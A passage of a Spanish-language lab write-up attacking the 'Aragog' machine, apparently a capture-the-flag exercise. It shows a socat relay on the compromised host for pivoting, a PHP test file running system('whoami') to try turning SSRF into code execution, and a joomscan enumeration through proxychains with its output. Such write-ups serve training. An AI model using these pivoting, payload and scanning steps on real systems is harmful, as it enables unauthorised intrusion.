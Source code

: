 Explicación: nos descargamos el binario de `socat` y nos lo transferimos a la máquina objetivo Aragog

Acción: desde Aragog ejecutamos `socat`

```bash
./socat TCP-LISTEN:4343,fork TCP:192.168.1.66:80
```

Acción: desde máquina atacante

```bash
nano pwned.php
```

```php
<?php
	system("whoami");
?>
```

Explicación: tratamos de confirmar que podemos derivar el SSFR a un RCE pero al cargar este archivo desde el buscador, habiéndolo compartido antes con python, vemos que el código no llega ejecutarse y en el código fuente queda reflejado como comentario. Por lo que descartamos que la intrusión vaya por este enlace. Y retomamos la información que vimos por http3, donde apuntaba que podría haber archivo `.bak` con información sensible

Acción: usamos `joomscan` para enumerar correctamente la web

[Ver cómo usar joomscan](../../Gestores%20de%20contenido%20(CMS)/Joomla/Joomscan.md)

```bash
proxychains perl joomscan.pl -u http://10.10.0.129/joomla/ 2>/dev/null
```

Resultado:

```bash
Processing http://10.10.0.129/joomla/ ...
[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.9.25

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.10.0.129/joomla/administrator/components
http://10.10.0.129/joomla/administrator/modules
http://10.10.0.129/joomla/administrator/templates
http://10.10.0.129/joomla/tmp
http://10.10.0.129/joomla/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.0.129/joomla/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.0.129/joomla/robots.txt 

Interesting path found from robots.txt
http://10.10.0.129/joomla/joomla/administrator/
http://10.10.0.129/joomla/administrator/
```